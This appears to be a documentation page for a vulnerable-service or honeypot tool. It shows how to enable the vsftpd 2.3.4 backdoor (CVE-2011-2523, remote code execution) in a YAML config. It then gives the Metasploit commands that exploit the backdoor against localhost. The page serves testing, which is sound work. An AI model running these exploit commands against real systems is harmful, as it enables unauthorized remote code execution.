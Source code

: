 Remote code execution (RCE).

### Usage

Example config:

```yaml
applications:
  - type: ftp
    vulnerabilities:
      - CVE-2011-2523

```

### Test with Metasploit

To exploit this vulnerability with Metasploit, use the `unix/ftp/vsftpd_234_backdoor` module.

!!! example "Example"

    Open the msfconsole and run these commands (update the variables accordingly):
    ```shell
    use unix/ftp/vsftpd_234_backdoor
    set RHOSTS 127.0.0.1
    run
    ```
